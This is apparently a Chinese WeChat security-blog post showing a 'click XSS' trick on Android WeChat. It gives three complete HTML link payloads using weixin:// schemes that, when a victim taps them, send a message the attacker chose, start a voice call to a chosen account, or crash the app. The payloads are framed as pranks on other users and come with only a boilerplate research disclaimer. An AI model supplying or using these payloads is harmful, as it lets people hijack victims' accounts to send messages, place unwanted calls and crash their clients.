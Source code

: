 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg4MTkwMTI5Mw==&mid=2247490188&idx=1&sn=237e8b92f0b91d5b45fca4a8108b0dcc

#  逆大天，微信点击XSS，弹电话发信息  
原创 Mstir  星悦安全   2025-07-13 15:13  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x01 微信点击XSS  
  
该玩法仅限安卓微信，苹果会直接显示源代码，具体操作就是引用随便一个人的话，然后发送代码，对面点击就会调用微信协议做出对应操作.  
  
  
玩法1：让对方发 我们想让他发的话 (一定要引用):  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cjAU3wqgsYNO3jWcwS4u5yYhMrlfZMwMr7xG5M9iciauRv6gCyeEQ9ctiaKwV6CH0icM0togia7FySJhA/640?wx_fmt=png&from=appmsg "")  
  
对方视角:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cjAU3wqgsYNO3jWcwS4u5yjIXuFhqEe3AhnQibLibqESzdYgMdLpexwVuVXYps9rYaKRgqpNk1sxBw/640?wx_fmt=png&from=appmsg "")  
  
完整代码:  

```
<a href=&#34;weixin://bizmsgmenu
?msgmenucontent=爸爸，我错了以后再也不乱点了
&msgmenuid=960&#34;>http://www.bilibili.com/bv183613</a>
上海漫展吃瓜
```

  
玩法2：让对方直接给你扣电话 (  
需有好友位  
):  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cjAU3wqgsYNO3jWcwS4u5yFnI8Z4ehk2mZf37eRc2qdVwM7bHWHM5eQiazOXt7K5MO8lC6pZDZY8w/640?wx_fmt=png&from=appmsg "")  
  
对面视角:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cjAU3wqgsYNO3jWcwS4u5ytKtVelOmIfPGFU9NIRPEdVbvHe3m12X7T8icxtdVQ7feGpZianQ8FpWw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cjAU3wqgsYNO3jWcwS4u5yRnPHgibYb2IoT4Zxibv4bmX9qvYZm4JRjKKOKehxQibEYBmnFWTsKZM4A/640?wx_fmt=png&from=appmsg "")  
  
完整代码:  

```
<a href=&#34;weixin://voip/callagain/?username=微信号&#34;>试试这个</a>
```

  
玩法3：直接让对方闪退:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cjAU3wqgsYNO3jWcwS4u5yS2iaPA8ktcQwFETsjEeRibibHD1VkCibIqzpIPOmRD71d3mEVbjRgZT7pQ/640?wx_fmt=png&from=appmsg "")  
  
对方视角:  
  
  
完整代码:  

```
<a href=&#34;weixin://jump/voipdetail/?data=1&#34;>ok了家人们</a>
```

## 0x02 关注公众号  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注公众号，获取最新安全文章!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
